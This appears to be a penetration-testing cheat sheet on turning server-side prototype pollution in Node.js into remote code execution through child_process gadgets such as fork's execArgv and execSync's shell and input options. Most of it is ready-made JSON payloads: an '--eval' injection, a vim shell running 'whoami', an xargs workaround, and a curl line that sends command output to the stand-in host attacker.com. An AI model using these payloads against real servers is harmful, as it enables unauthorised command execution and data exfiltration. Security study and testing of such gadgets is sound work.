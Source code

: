 # RCE via Methods

Methods such as `child_process.spawn()` and `child_process.fork()` enable developers to create new Node subprocesses. The `fork()` method accepts an options object in which one of the potential options is the `execArgv` property.

As this gadget lets you directly control the command-line arguments, this gives you access to some attack vectors that wouldn't be possible using `NODE_OPTIONS`. Of particular interest is the `--eval` argument, which enables you to pass in arbitrary JavaScript that will be executed by the `child_process`.

```json
"execArgv": [ 
	="--eval=require('<module>')"= 
]
```

In addition to `fork()`, the `child_process` module contains the `execSync()` method, which executes an arbitrary string as a system command. By chaining these JavaScript and command injection sinks, we can probably gain full RCE capability on the server.

***

`execSync()` can take an options object, which includes properties like:

* `shell` , can be used to call `/bin/sh`
* `input` , sends data to the `stdin` of the child process

If both of these are left **undefined**. It can be vulnerable to Prototype Pollution. Besides that, here is an example of using `vim` as a shell

```json
{
  "__proto__": {
    "shell": "vim",
    "input": ":! whoami\n"
  }
}
```

***

Some workarounds if `stdin` is not read properly.

1. **`xargs` (converts `stdin` to arguments)**

```json
{
  "__proto__": {
    "shell": "/bin/sh",
    "input": "id | xargs\n"
  }
}
```

2. **Using `curl` with stdin (`-d @-`**

```json
{
  "__proto__": {
    "shell": "/bin/sh",
    "input": "curl -d @- http://attacker.com\n"
  }
}
```
